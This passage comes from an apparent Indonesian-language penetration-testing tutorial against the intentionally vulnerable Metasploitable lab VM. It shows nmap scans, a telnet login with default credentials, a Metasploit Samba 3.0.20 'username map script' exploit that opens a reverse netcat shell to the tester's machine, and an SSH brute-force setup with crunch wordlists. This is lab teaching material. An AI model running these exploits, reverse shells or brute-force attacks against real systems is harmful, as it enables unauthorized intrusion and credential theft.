          collisions:0 txqueuelen:1000 
          RX bytes:174391 (170.3 KB)  TX bytes:188935 (184.5 KB)
          Base address:0xd020 Memory:f0200000-f0220000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:244 errors:0 dropped:0 overruns:0 frame:0
          TX packets:244 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:93713 (91.5 KB)  TX bytes:93713 (91.5 KB)
```

Kita sudah berada dalam shell target. 
Untuk keluar ketik `exit` atau `quit`.

### Exploit telnet pada Metasploitable

Exploit telnet pada metasploitable tidaklah sulit karena secara default kita tidak perlu menggunakan metasploit framework.

```bash
$ nmap -sV 192.168.1.22

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-15 21:27 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.027s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds
```

Dari hasil di atas port ternet terbuka pada port `23/tcp`, kita bisa langsung masuk ke dalam system target metasploitable melalui telnet dengan user dan password `msfadmin` dengan perintah:

```bash
$ telnet 192.168.1.22  

Trying 192.168.1.22...
Connected to 192.168.1.22.
Escape character is '^]'.
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


metasploitable login: msfadmin
Password: 
Last login: Sun Dec 15 07:56:34 EST 2024 from 192.168.1.21 on pts/1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
```

### Exploit Samba

Scan versi service

```bash
$ nmap -sV 192.168.1.22

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-15 21:27 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.027s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds
```

Dari output di atas kita menemukan port samba yang terbuka, cuma masalahnya versi samba tidak jelas. Kita bisa saja menggunakan perintah `searchsploit samba`

```bash
$ searchsploit samba

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GoSamba 1.0.1 - 'INCLUDE_PATH' Multiple Remote File Inclusions                                                                                                                  | php/webapps/4575.txt
Microsoft Windows XP/2003 - Samba Share Resource Exhaustion (Denial of Service)                                                                                                 | windows/dos/148.sh
Samba 1.9.19 - 'Password' Remote Buffer Overflow                                                                                                                                | linux/remote/20308.c
Samba 2.0.7 - SWAT Logfile Permissions                                                                                                                                          | linux/local/20341.sh
Samba 2.0.7 - SWAT Logging Failure                                                                                                                                              | unix/remote/20340.c
Samba 2.0.7 - SWAT Symlink (1)                                                                                                                                                  | linux/local/20338.c
Samba 2.0.7 - SWAT Symlink (2)                                                                                                                                                  | linux/local/20339.sh
Samba 2.0.x - Insecure TMP File Symbolic Link                                                                                                                                   | linux/local/20776.c
Samba 2.0.x/2.2 - Arbitrary File Creation                                                                                                                                       | unix/remote/20968.txt
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                                                                    | osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)                                                                                                         | linux/remote/16321.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                               | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux Kernel 2.6 / Debian / Mandrake) - Share Privilege Escalation                                                                                                 | linux/local/23674.txt
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                             | linux_x86/remote/16861.rb
Samba 2.2.8 (OSX/PPC) - 'trans2open' Remote Overflow (Metasploit)                                                                                                               | osx_ppc/remote/16876.rb
Samba 2.2.8 (Solaris SPARC) - 'trans2open' Remote Overflow (Metasploit)                                                                                                         | solaris_sparc/remote/16330.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution                                                                                                                       | linux/remote/55.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1)                                                                                                                      | unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2)                                                                                                                      | unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3)                                                                                                                      | unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4)                                                                                                                      | unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit)                                                                                                                            | linux/remote/9936.rb
Samba 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Overflow                                                                                                         | unix/remote/22356.c
Samba 2.2.x - Remote Buffer Overflow                                                                                                                                            | linux/remote/7.pl
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                                                                                                            | osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                          | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                | unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)                                                                                                              | linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                                                                                                          | linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                                                                                                        | solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                                                                                                                        | linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                                                                                                               | multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                                                                                                                | linux/remote/364.pl
Samba 3.3.12 (Linux x86) - 'chain_reply' Memory Corruption (Metasploit)                                                                                                         | linux_x86/remote/16860.rb
Samba 3.3.5 - Format String / Security Bypass                                                                                                                                   | linux/remote/33053.txt
Samba 3.4.16/3.5.14/3.6.4 - SetInformationPolicy AuditEventsInfo Heap Overflow (Metasploit)                                                                                     | linux/remote/21850.rb
Samba 3.4.5 - Symlink Directory Traversal                                                                                                                                       | linux/remote/33599.txt
Samba 3.4.5 - Symlink Directory Traversal (Metasploit)                                                                                                                          | linux/remote/33598.rb
Samba 3.4.7/3.5.1 - Denial of Service                                                                                                                                           | linux/dos/12588.txt
Samba 3.5.0 - Remote Code Execution                                                                                                                                             | linux/remote/42060.py
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' Arbitrary Module Load (Metasploit)                                                                                    | linux/remote/42084.rb
Samba 3.5.11/3.6.3 - Remote Code Execution                                                                                                                                      | linux/remote/37834.py
Samba 3.5.22/3.6.17/4.0.8 - nttrans Reply Integer Overflow                                                                                                                      | linux/dos/27778.txt
Samba 4.5.2 - Symlink Race Permits Opening Files Outside Share Directory                                                                                                        | multiple/remote/41740.txt
Samba < 2.0.5 - Local Overflow                                                                                                                                                  | linux/local/19428.c
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                                                               | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                           | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                   | linux_x86/dos/36741.py
Sambar FTP Server 6.4 - 'SIZE' Remote Denial of Service                                                                                                                         | windows/dos/2934.php
Sambar Server 4.1 Beta - Admin Access                                                                                                                                           | cgi/remote/20570.txt
Sambar Server 4.2 Beta 7 - Batch CGI                                                                                                                                            | windows/remote/19761.txt
Sambar Server 4.3/4.4 Beta 3 - Search CGI                                                                                                                                       | windows/remote/20223.txt
Sambar Server 4.4/5.0 - 'pagecount' File Overwrite                                                                                                                              | multiple/remote/21026.txt
Sambar Server 4.x/5.0 - Insecure Default Password Protection                                                                                                                    | multiple/remote/21027.txt
Sambar Server 5.1 - Sample Script Denial of Service                                                                                                                             | windows/dos/21228.c
Sambar Server 5.1 - Script Source Disclosure                                                                                                                                    | cgi/remote/21390.txt
Sambar Server 5.x - 'results.stm' Cross-Site Scripting                                                                                                                          | windows/remote/22185.txt
Sambar Server 5.x - Information Disclosure                                                                                                                                      | windows/remote/22434.txt
Sambar Server 5.x - Open Proxy / Authentication Bypass                                                                                                                          | windows/remote/24076.txt
Sambar Server 5.x/6.0/6.1 - 'results.stm' indexname Cross-Site Scripting                                                                                                        | windows/remote/25694.txt
Sambar Server 5.x/6.0/6.1 - logout RCredirect Cross-Site Scripting                                                                                                              | windows/remote/25695.txt
Sambar Server 5.x/6.0/6.1 - Server Referer Cross-Site Scripting                                                                                                                 | windows/remote/25696.txt
Sambar Server 6 - Search Results Buffer Overflow (Metasploit)                                                                                                                   | windows/remote/16756.rb
Sambar Server 6.0 - 'results.stm' POST Buffer Overflow                                                                                                                          | windows/dos/23664.py
Sambar Server 6.1 Beta 2 - 'show.asp?show' Cross-Site Scripting                                                                                                                 | windows/remote/24161.txt
Sambar Server 6.1 Beta 2 - 'showini.asp' Arbitrary File Access                                                                                                                  | windows/remote/24163.txt
Sambar Server 6.1 Beta 2 - 'showperf.asp?title' Cross-Site Scripting                                                                                                            | windows/remote/24162.txt
SWAT Samba Web Administration Tool - Cross-Site Request Forgery                                                                                                                 | cgi/webapps/17577.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Cuman masalah lain muncul yaitu versi yang muncul banyak karena kita tidak memasukan versi spesifik pada pencarian. Kita bisa saja mencoba satu persatu tapi akan kurang efektif.

#### Menggunakan scanner pada metasploit

Metasploit mempunyai modules `auxiliary` pada direktori modules, yang di dalamnya terdapat direktori `scanner` yang bisa kita gunakan.

```bash
$ cd /usr/share/metasploit-framework/modules/auxiliary/scanner

$ ls

acpp      chargen  dect       emc     gopher  ike   jenkins   llmnr      misc      msf     mysql    nexpose  openvas     portmap   quake  rservices  scada  snmp   teamcity   tftp      varnish  vxworks  x11
afp       couchdb  discovery  etcd    gprs    imap  kademlia  lotus      mongodb   msmail  natpmp   nfs      oracle      portscan  rdp    rsync      sip    ssh    telephony  ubiquiti  vmware   winrm
amqp      db2      dlsw       finger  h323    ip    kerberos  mdns       motorola  msmq    nessus   nntp     pcanywhere  postgres  redis  sage       smb    ssl    telnet     udp       vnc      wproxy
backdoor  dcerpc   dns        ftp     http    ipmi  ldap      memcached  mqtt      mssql   netbios  ntp      pop3        printer   rogue  sap        smtp   steam  teradata   upnp      voice    wsdd
```

Di dalam `scanner` kita tinggal memilih untuk menggunakan modules yang akan kita gunakan, dalam kasus ini kita akan menggunakan modules `smb` untuk mencari versi samba yang kita cari.

```bash
$ cd /usr/share/metasploit-framework/modules/auxiliary/scanner/smb

$ ls
impacket         pipe_dcerpc_auditor.rb    smb_enum_gpp.rb    smb_enumusers.rb         smb_login.rb      smb_ms17_010.rb     smb_version.rb
pipe_auditor.rb  psexec_loggedin_users.rb  smb_enumshares.rb  smb_enumusers_domain.rb  smb_lookupsid.rb  smb_uninit_cred.rb
```

Dalam direktori `smb` terdapat file `smb_version.rb` yangf bisa kita gunakan untuk mencari versi samba. Selanjutnya kita akan menggunakan metasploit untuk mencari/scannning versi samba.

```bash
$ msfconsole  

Metasploit tip: Use the edit command to open the currently active module 
in your editor
                                                  
                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____                                                                                                                                                                                      
                 | |  `----.`.                                                                                                                                                                                    
                 | |        \ `.                                                                                                                                                                                  
                 ; |___      \-``                                                                                                                                                                                 
                 \   --<                                                                                                                                                                                          
                  `.`.<                                                                                                                                                                                           
                    `-'                                                                                                                                                                                           
                                                                                                                                                                                                                  
                                                                                                                                                                                                                  

       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > 
```

Kita sudah mengetahui lokasi file samba scanner yang berada dalam `auxiliary/scanner/smb/`

```bash
msf6 > use auxiliary/scanner/smb/

Matching Modules
================

   #   Name                                         Disclosure Date  Rank    Check  Description
   -   ----                                         ---------------  ----    -----  -----------
   0   auxiliary/scanner/smb/impacket/dcomexec      2018-03-19       normal  No     DCOM Exec
   1   auxiliary/scanner/smb/impacket/secretsdump   .                normal  No     DCOM Exec
   2   auxiliary/scanner/smb/smb_ms17_010           .                normal  No     MS17-010 SMB RCE Detection
   3     \_ AKA: DOUBLEPULSAR                       .                .       .      .
   4     \_ AKA: ETERNALBLUE                        .                .       .      .
   5   auxiliary/scanner/smb/psexec_loggedin_users  .                normal  No     Microsoft Windows Authenticated Logged In Users Enumeration
   6   auxiliary/scanner/smb/smb_enumusers_domain   .                normal  No     SMB Domain User Enumeration
   7   auxiliary/scanner/smb/smb_enum_gpp           .                normal  No     SMB Group Policy Preference Saved Passwords Enumeration
   8   auxiliary/scanner/smb/smb_login              .                normal  No     SMB Login Check Scanner
   9   auxiliary/scanner/smb/smb_lookupsid          .                normal  No     SMB SID User Enumeration (LookupSid)
   10    \_ action: DOMAIN                          .                .       .      Enumerate domain accounts
   11    \_ action: LOCAL                           .                .       .      Enumerate local accounts
   12  auxiliary/scanner/smb/pipe_auditor           .                normal  No     SMB Session Pipe Auditor
   13  auxiliary/scanner/smb/pipe_dcerpc_auditor    .                normal  No     SMB Session Pipe DCERPC Auditor
   14  auxiliary/scanner/smb/smb_enumshares         .                normal  No     SMB Share Enumeration
   15  auxiliary/scanner/smb/smb_enumusers          .                normal  No     SMB User Enumeration (SAM EnumUsers)
   16  auxiliary/scanner/smb/smb_version            .                normal  No     SMB Version Detection
   17  auxiliary/scanner/smb/smb_uninit_cred        .                normal  Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   18  auxiliary/scanner/smb/impacket/wmiexec       2018-03-19       normal  No     WMI Exec


Interact with a module by name or index. For example info 18, use 18 or use auxiliary/scanner/smb/impacket/wmiexec

msf6 > use 16
msf6 auxiliary(scanner/smb/smb_version) > 
```

Kita sudah masuk kedalam mode msfconsole untuk mencari versi samba. Selanjutnya kita perlu melakukan konfigurasi tambahan sebelum di `run` yaitu memasukan ip address target.

```bash
msf6 auxiliary(scanner/smb/smb_version) > show info

       Name: SMB Version Detection
     Module: auxiliary/scanner/smb/smb_version
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>
  Spencer McIntyre
  Christophe De La Fuente

Check supported:
  No

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT                     no        The target port (TCP)
  THREADS  1                yes       The number of concurrent threads (max one per host)

Description:
  Fingerprint and display version information about SMB servers. Protocol
  information and host operating system (if available) will be reported.
  Host operating system detection requires the remote server to support
  version 1 of the SMB protocol. Compression and encryption capability
  negotiation is only present in version 3.1.1.


View the full module info with the info -d command.

msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   192.168.1.22     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                     no        The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.1.22:445      -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 192.168.1.22:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_version) > 
```

Banggggg!!!! kita sudah menemukan versi samba yaitu `Samba 3.0.20`.

#### Exploit Samba 3.0.20

Setelah versi samba diketahui kemudian kita akan mencari exploit samba:

```bash
$ searchsploit samba 3.0.20

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                          | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                           | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                   | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Ok... dari hasil pencarian kita menemukan exploit `Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)` yang berlokasi `unix/remote/16320.rb`.

Selanjutnya kita masuk ke dalam metasploit lagi, dan menggunakan exploit yang sudah kita temukan.

```bash
$ msfconsole

Metasploit tip: To save all commands executed since start up to a file, use the 
makerc command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 >
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0

[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   139              yes       The target port (TCP)

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba
  versions 3.0.20 through 3.0.25rc3 when using the non-default
  "username map script" configuration option. By specifying a username
  containing shell meta characters, attackers can execute arbitrary
  commands.

  No authentication is needed to exploit this vulnerability since
  this option is used to map usernames prior to authentication!

References:
  https://nvd.nist.gov/vuln/detail/CVE-2007-2447
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html


View the full module info with the info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOST 192.168.1.22
RHOST => 192.168.1.22
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.22     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```

Pada bagian `LHOST  192.168.1.21`, ip address tersebut adalah ip address Kali Linux kita. Kemudian kita tinggal menjalankan `run` atau `exploit`

```bash
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.1.21:4444 
[*] Command shell session 1 opened (192.168.1.21:4444 -> 192.168.1.22:57480) at 2024-12-15 21:58:25 +0800
```

Banggg......!!! berhasil. Jika cara di atas tidak berhasil untuk mencari versi eksploit atau exploit itu sendiri, kita bisa menggunakan jalan terakhir dengan menggunakan google.

#### Brutoforce attack SSH

Dalam dunia nyata, yang perlu disiapkan sebelum adalah brutoforce adalah wordlist. Di Kali Linux tool yang dapat digunakan untuk membuat wordlist adalah `crunch`.

Membuat wordlist minimal 6 karakter maksimal 8 karakter dan disimpan dalam `user-list.txt` file.

```bash
crunch 6 8 -o user-list.txt
```
Contoh menambahkan spesifik karakter yang akan dibuat dalam wordlist

```bash
crunch 8 8 msifadn -o user-list.txt
```

Module yang akan kita gunakan untuk bruto force ssh adalah `ssh_login.rb`yang  berada di `/usr/share/metasploit-framework/modules/auxiliary/scanner/ssh`.

Jalankan metasploit sekaligus memasukan option konfigurasi:

```bash
$ msfconsole 

Metasploit tip: The use command supports fuzzy searching to try and 
select the intended module, e.g. use kerberos/get_ticket or use 
kerberos forge silver ticket
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .                                                             
             ' @@@ @@   @@    ,                                                              
              `.@@@@    @@   .                                                               
                ',@@     @   ;           _____________                                       
                 (   3 C    )     /|___ / Metasploit! \                                      
                 ;@'. __*__,."    \|--- \_____________/                                      
                  '(.,...."/                                                                 


       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 >
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and
                                                password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   CreateSession     true             no        Create a new session for every successful l
                                                ogin
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the
                                                 current database
   DB_ALL_PASS       false            no        Add all passwords in the current database t
                                                o the list
   DB_ALL_USERS      false            no        Add all users in the current database to th
                                                e list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the cur
                                                rent database (Accepted: none, user, user&r
                                                ealm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://docs.metasp
                                                loit.com/docs/using-metasploit/basics/using
                                                -metasploit.html
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a
                                                 host
   THREADS           1                yes       The number of concurrent threads (max one p
                                                er host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separat
                                                ed by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all us
                                                ers
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/ucup/Desktop/username.txt
USER_FILE => /home/ucup/Desktop/username.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/ucup/Desktop/password.txt
